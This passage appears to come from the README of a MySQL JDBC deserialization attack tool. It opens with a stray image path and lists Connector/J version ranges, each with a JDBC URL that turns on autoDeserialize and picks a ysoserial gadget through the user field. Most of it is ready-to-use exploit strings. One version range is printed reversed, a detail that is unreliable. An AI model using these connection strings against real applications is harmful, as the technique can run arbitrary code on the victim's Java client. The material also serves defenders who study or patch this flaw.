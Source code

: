 ````sql
### >= 5.1.11
There is no `cj` in the package name.

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

### 5.x <= 5.1.10
The same as `>=5.1.11`, but the query needs to be executed after connection.

## detectCustomCollations trigger
### 5.1.29 - 5.1.40

```java
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc
```

### 5.1.28 - 5.1.19

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc
```

# refer to
 - [MySQL JDBC Deserialization Vulnerability](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)
 - [MySQL JDBC Client Deserialization Vulnerability Analysis](https://www.anquanke.com/post/id/203086)